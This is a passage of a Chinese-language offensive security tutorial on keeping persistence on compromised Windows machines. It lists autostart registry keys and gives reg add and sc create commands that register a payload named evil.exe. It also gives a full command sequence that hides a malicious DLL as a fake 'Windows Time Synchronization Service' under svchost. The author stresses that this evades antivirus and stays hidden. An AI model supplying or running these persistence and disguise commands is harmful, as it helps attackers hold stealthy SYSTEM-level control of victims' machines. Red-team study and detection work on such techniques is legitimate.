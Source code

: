 ```
HKEY_CURRENT_USER＼Software＼Microsoft＼Windows＼CurrentVersion＼ RunServices
HKEY_LOCAL_MACHINE＼Software＼Microsoft＼Windows＼ CurrentVersion＼RunServices

6.RunOnce＼Setup注册键
HKEY_CURRENT_USER＼Software＼Microsoft＼Windows＼CurrentVersion＼RunOnce＼Setup
HKEY_LOCAL_MACHINE＼Software＼Microsoft＼Windows＼CurrentVersion＼RunOnce＼Setup

7.RunOnce注册键
安装程序通常用RunOnce键自动运行程序，它的位置在
HKEY_LOCAL_MACHINE＼Software＼Microsoft＼Windows＼CurrentVersion＼RunOnce
[小于NT6]HKEY_LOCAL_MACHINE＼Software＼Microsoft＼Windows＼CurrentVersion＼RunOnceEx
HKEY_CURRENT_USER＼Software＼Microsoft＼Windows＼CurrentVersion＼RunOnce
HKEY_LOCAL_MACHINE下面的RunOnce键会在用户登录之后立即运行程序，运行时机在其他Run键指定的程序之前；HKEY_CURRENT_USER下面的RunOnce键在操作系统处理其他Run键以及“启动”文件夹的内容之后运行。

8.Run注册键
HKEY_CURRENT_USER＼Software＼Microsoft＼Windows＼CurrentVersion＼Run
HKEY_LOCAL_MACHINE＼Software＼Microsoft＼Windows＼CurrentVersion＼Run
Run是自动运行程序最常用的注册键，HKEY_CURRENT_USER下面的Run键紧接HKEY_LOCAL_MACHINE下面的Run键运行，但两者都在处理“启动”文件夹之前。
```

写入注册键命令如下：  
`reg add "XXXX" /v evil /t REG_SZ /d "[Absolute Path]\evil.exe"`

## 0x03 服务

权限要求：未降权的管理员权限。  
创建服务是需要非降权管理员权限的，因此拿到shell后要用这种方法做维持首先要提权，但其优点是隐蔽性比注册键高（如用svchost的服务组加载DLL就可以隐藏掉恶意进程）。CMD和Powershell都可以用命令添加服务，样例如下：  
`sc create evil binpath= "cmd.exe /k [Absolute Path]evil.exe" start= "auto" obj= "LocalSystem"`  
这种直接通过cmd拉起的服务创建起来很简单。这里需要注意一个小坑：shellcodeloader主线程会阻塞导致服务启动时认为程序无响应而失败，因此必须用cmd拉起来，不能直接创建服务。服务正常启动后进程以SYSTEM权限在用户登录前运行。但缺点也很明显，恶意进程还是独立存在的，隐蔽性较差。如下图：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142200-a3bf1cea-d551-1.jpeg)

还有一类服务是通过svchost启动，由于Windows系统中的许多服务都是通过注入到该程序中启动（这也是官方认可的DLL注入动作），因此只要DLL本身免杀，杀毒软件就不会理会这种行为，并且由于恶意进程并不是独立存在的，隐蔽性相对较高。  
但使用svchost加载服务就不是一行命令可以完成的，不仅需要自己做一个服务DLL，还需要额外在注册表中添加一些东西。由于64位系统有两套注册表和两套svchost，因此命令还有微小的不同。  
32位系统命令如下：

```
sc create TimeSync binPath= "C:\Windows\System32\svchost.exe -k netsvr" start= auto obj= LocalSystem
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:32
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:32
reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:32
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:32
sc start TimeSync
```

